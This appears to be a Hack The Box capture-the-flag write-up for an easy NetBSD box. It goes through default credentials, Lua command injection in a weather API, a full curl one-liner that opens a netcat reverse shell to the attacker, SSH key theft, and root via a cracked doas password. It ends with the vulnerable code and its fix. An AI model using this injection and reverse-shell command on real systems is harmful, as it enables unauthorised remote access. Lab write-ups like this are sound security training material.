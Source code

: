 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
### Recon

**Nmap Scan:**
- Open ports: 22 [SSH](SSH), 80 [HTTP](HTTP), 9001 (Supervisor Process Manager)
- OS: NetBSD
- TCP 9001 is running Supervisor Process Manager, protected by HTTP Basic Auth

**Supervisor Manager:**
- Default credentials `user:123` worked
- Found process showing `/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua`
- Indicates a Lua script serving weather API on localhost:3000

**Port 80 HTTP:**
- Protected by HTTP Basic Auth
- `.htpasswd` file found with hash
- Cracked to `webapi_user:iamthebest`
- Gave access to basic HTML with links to the weather API

---

### Weather API Enumeration

- Endpoint: `/weather/forecast`
- Accepts parameter: `city`
- `city=list` reveals cities
- Invalid city gives a 500 error with `unknown city: input`

**Potential Injection Point:**
- Submitting `'` crashes script
- Submitting `') os.execute('id') --` results in command execution
- Verified command injection via Lua using `os.execute`

**Reverse Shell via FIFO method:**
```bash
curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f') --" 'http://10.10.10.218/weather/forecast'
```
- Connected back as user `_http`

---

### PrivEsc to `r.michaels`

**In `/var/www`:**
- `.htpasswd` file with different hash
- Cracked to `webapi_user:iamthebest`

**From supervisord output:**
- User `r.michaels` running another web server on 127.0.0.1:3001
- Lua script served from `/home/r.michaels/devel/webapi/weather.lua`

**Localhost Port 3001:**
- Used credentials on `http://127.0.0.1:3001/~r.michaels/`
- Directory listing exposed `id_rsa`
- SSH key retrieved and used to login as `r.michaels`

---

### PrivEsc to root

**Found `/usr/pkg/etc/doas.conf`:**
- Allowed `r.michaels` to run anything as root
- Needed password

**Found encrypted backup in `~/backups/`:**
- `devel_backup-2020-09-16.tar.gz.enc`

**Used netpgp to decrypt:**
```bash
netpgp --decrypt --output=/tmp/backup.tar.gz backups/devel_backup-2020-09-16.tar.gz.enc
```

**Inside decrypted archive:**
- Found `.htpasswd` with hash
- Cracked to `littlebear`
- Used with `doas` to get root shell:
```bash
doas -u root sh
Password: littlebear
```

**Root Flag Captured**

---

### Beyond Root: Lua Injection Insight

**Vulnerability was in:**
```lua
local json = string.format([[
  httpd.write('{"code": 500,')
  httpd.write('"error": "unknown city: %s"}')
]], city)
load(json)()
```
- Unescaped input allowed arbitrary code execution

**Fixed in dev version:**
```lua
httpd.write('"error": "unknown city: ' .. city .. '"}')
```
- Avoided use of `load()`

---

**Summary:**
- Initial foothold via Lua injection on weather API
- User escalation via exposed SSH key in web directory
- Root via encrypted backup revealing password used for `doas`